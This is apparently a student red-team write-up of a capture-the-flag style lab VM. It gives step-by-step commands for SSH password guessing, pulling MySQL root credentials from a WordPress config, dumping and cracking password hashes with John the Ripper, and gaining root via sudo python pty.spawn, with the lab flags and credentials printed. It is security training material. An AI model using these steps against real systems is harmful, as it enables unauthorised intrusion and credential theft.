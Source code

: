 #
# **Red Team: Summary of Operations**

## **Table of Contents**

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### **Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

$ nmap ... # nmap -sV 192.168.1.110

![Frank-n-Ted](Red%20Team%20Screenshots/nmap.png)

This scan identifies the services in the above screenshot as potential points of entry.

**Critical Vulnerabilites**

The following vulnerabilities were identified on target 1.

- Network Mapping (WordPress site)
  - Nmap was used to discover open ports.
- SSH access available to public
  - An easily guessable user password was used to gain ssh access. No ssh key was required.
- MySQL login stored in plaintext
  - The attackers were able to discover a file containing login information for the MySQL database stored in plaintext.
- Unsalted hashes
  - The attackers were able to gain access to usernames and unsalted hashes of those users passwords in MySQL. The attacker exfiltrated the unsalted hashes and cracked them using John the Ripper.
- Privilege Escalation
  - User Steven has sudo access for Python
    - The attackers leveraged this vulnerability to gain root access.

Below are the associated CVE entries on identified vulnerabilities.

- Target 1
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

-

### **Exploitation**

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

![](RackMultipart20220513-1-igqb1a_html_d4c733c59bd9ed1d.png)

![](RackMultipart20220513-1-igqb1a_html_c123c7da8965477f.png)

  - flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used:** ssh into Michael&#39;s account and look in the/var/www files
      - ssh michael@192.168.1.110
      - Password: michael
      - command: $ cd /var/www
      - command: $ ls
      - command: $ grep -RE flag html
        - Screenshot below is the output of the &quot;grep&quot; command.

![](RackMultipart20220513-1-igqb1a_html_2283abc7f8e77542.png)

  - flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - ssh&#39;d into Michael&#39;s account and looked in the /var/www files.

![](RackMultipart20220513-1-igqb1a_html_568a92c76f798552.png)

Flag 3 and 4

flag3.txt: flag3{afc01ab56b50591e7dccf93122770cd2}

flag4.txt: flag4.txt: flag4{715dea6c055b9fe3337544932f2941ce}

Exploits used

- As Michael found MySQL login information in the /var/www/html/wordpress/wp-config.php file.

![](RackMultipart20220513-1-igqb1a_html_af58720d345cf4d7.png)

- Used the credentials u: root p: R@v3nSecurity to login to MySQL
  - Command: mysql -u root -p
  - Password: R@v3nSecurity
- Command: show databases;
- Command: use wordpress;
- Command: show tables;
- Command: select \* from wp\_posts;

Found flags 3 and 4.

![](RackMultipart20220513-1-igqb1a_html_27687e2d556f953c.png)

Found hashed passwords for Michael and Steven in MySQL

Command: $ select \* from wp\_users;

![](RackMultipart20220513-1-igqb1a_html_7a58fe1557b5de0.png)

**Escalating to Root**

- Exfiltrated Steven&#39;s hashed password and cracked it using John the Ripper
  - Copied hash into a local file called wp\_hashes.txt
    - Command: $ john wp\_hashes.txt
- ![](RackMultipart20220513-1-igqb1a_html_e5e39951a42611e7.png)
- Steven password is pink84
- Ssh steven@192.168.1.110
  - Passwd: pink84
- Command: $ sudo -l
- ![](RackMultipart20220513-1-igqb1a_html_4a869b00a454f0f8.png)
- Steven has sudo privileges to use Python. We can [exploit this](https://rcenetsec.com/shell-spawning/)
- sudo python -c &#39;import pty;pty.spawn(&quot;/bin/bash&quot;)&#39;
- ![](RackMultipart20220513-1-igqb1a_html_ff148a0de0fc11fe.png)
- command: $ cd
- command: $ ls
- command: $ cat flag4.txt
- ![](RackMultipart20220513-1-igqb1a_html_663eb3d47f43bb9d.png)

